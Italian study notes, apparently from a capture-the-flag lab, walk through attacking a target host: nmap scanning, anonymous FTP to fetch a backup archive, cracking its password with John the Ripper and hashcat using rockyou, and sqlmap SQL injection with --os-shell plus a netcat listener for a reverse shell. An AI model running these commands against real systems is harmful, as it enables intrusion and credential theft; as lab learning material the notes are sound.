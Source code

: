 <link rel="stylesheet" href="../style.css">

<label for="tema">Tema scuro</label>
<input type="checkbox" id="tema-scuro"></input>

vpn

tmux, splitta il terminale

ping -c2 222.222.222.222

sudo nmap -sV -sC 222.222.222.222, identifica le porte aperte sulla macchina che risponde di un determinato ip:

-   sulla porta 22 solitamente c'è SSH
-   sulla 21 c'è ftp (in casi di "misconfiguration" si può fare un login anonimo e accedere ad alcuni file, per la modalità di debug), tra i cookie c'è un SessionID

    -   versione vsftpd 3.0.3, cercando online gli **exploit** per questa versione
    -   l'accesso anonimo si fa con :
        -   `ftp -v 222.222.222.222`
        -   user: Anonymous
        -   pass: (vuota, tanto non viene verificata per gli utenti anonimi)
        -   poi verifichi la presenza di file disponibili - get backup.zip

#### POC : Proof of Concept

## Funzione ash

### Dominio e codominio

Il dominio è infinito
Il codominio e' limitato

## Come decomprimere archivi compressi con cifratura

I programmi si salvano soltanto l'Ash della password di cifratura

## John the Ripper

È un password cracker
Si può usare

```bash
zip2john file.zip > hash
```

## bisogna avere un file con un set enorme di password

```bash
wc -l ./rockyou.txt #(world count, conta il numero di password)
head -n 30 ./rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash ## mostra le password trovate
```

Nel file index.php è presente l'hash md5 della password admin

## hashcat

```bash
hashcat -m 0 hash rockyou.txt
```

## hashes.com

passandogli un hash, ti comunica la password corrispondente all'ash

## SQL map

### Cos'è

È un tool per automatizzare gli attacchi di tipo SQL Injection

### Esempio

```bash
sqlmap -u "http://222.222.222.222/dashboad.php?search=any+queery" --cookie="PHPSESSIONID=..." # Passando il cookie php della sessione del browser una volta fatto l'accesso

## quando sei sicuro che è iniettabile

sqlmap -u "http://222.222.222.222/dashboad.php?search=any+queery" --cookie="PHPSESSIONID=..." --os-shell
```

Una volta entrato come utente postgress, verificare:

```bash
whoami
# utente postgress

ifconfig # verificare l'ip
# 222.222.222.222

nc -nvlp 8888
```

## Cos'è john the ripper

## Cos'è hashcat

## Cos'è sqlmap

## Cos'è sqlinjection
